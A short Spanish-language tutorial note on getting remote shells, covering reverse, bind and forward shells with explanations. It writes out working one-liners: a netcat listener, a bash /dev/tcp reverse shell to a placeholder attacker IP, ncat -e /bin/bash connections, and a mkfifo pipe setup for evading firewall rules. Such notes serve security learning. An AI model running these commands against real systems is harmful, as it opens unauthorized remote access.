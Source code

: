 ---------
Resumen
- Reverse Shell: El servidor envía una shell al atacante conectándose a través de un puerto abierto en su máquina.
- Bind Shell: El servidor abre un puerto y ofrece una shell a cualquier persona que se conecte a él.


### Rever Shell
Este método tiene como objetivo que el servidor le envíe una shell al atacante. El atacante deja abierto un puerto en su máquina host y en el servidor ejecuta un oneliner para que este envíe una /bin/bash a su dirección ip por el puerto abierto.

ATACANTE  MODO ESCUCHA
```bash
nc -nlvp 443
```

**SERVIDOR**
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
```
Con ncat
```bash
ncat -e /bin/bash 172.23.0.1 443
```
### Bind Shell
Este método es el inverso a la rever shell, en este caso es en el servidor donde se abre un puerto ofreciendo una /bin/bash para todo aquel que se conecte. Por tanto el atacante simplemente se conecta al servidor poniendo la ip y el puerto abierto.

SERVIDOR MODO ESCUCHA OFRECIENDO UNA BASH
```bash
ncat -nlvp 443 -e /bin/bash
```

ATACANTE CONECTÁNDOSE AL SERVIDOR
```bash
ncat 172.23.0.4 443
```
### Forward Shell
En caso de que los dos primero métodos no funcionen porque se haya configurado una serie de reglas iptables que bloqueen la comunicación pues se recurre a la forward shell que se utiliza para eludir estas reglas. El concepto básico es que se utilizan dos archivos, uno donde se introduce el output y otro donde se extrae el output. Cuando el atacante consigue crear estos dos archivos puede jugar con los pipes (tuberías) para redirigir y tratar el flujo de la información como el quiera.
A continuación explicaré mas o menos como sería:
Crea un archivo con nombre input (no necesariamente debe ser este nombre) donde se introducirán los comandos a ejecutar, pero este archivo no es un archivo txt normal, tiene que ser creado con mkfifo. Con mkfifo podemos crear archivos que sirvan como canalizadores de la información, los datos que sean introducidos en este podemos ejecutarlo en una bash y redirigir el output a un archivo normal (.txt) 
Aunque también podríamos hacerlo con un archivo txt normal pero la diferencia es que un archivo mkfifo nunca guarda ningún dato almacenado, si hacemos un cat a un archivo mkfifo lo que vamos a ver es que el proceso se va a quedar a la espera hasta  que se introduzca algún dato. Es decir si metemos con echo un **{echo "HOLA MUNDO" > archivomkfifo}** seguidamente se finalizará el cat a ese archivo porque ya si tiene contenido y veremos HOLA MUNDO en la consola.
Si volvemos a catear el archivo pasará lo mismo porque este archivo no está diseñado para almacenar la información indefinidamente sino que es como un canalizador de datos para poder redirigir el output según nuestros intereses.
Ejemplo:
```bash
mkfifo input; touch output
cat input | /bin/bash > output
```
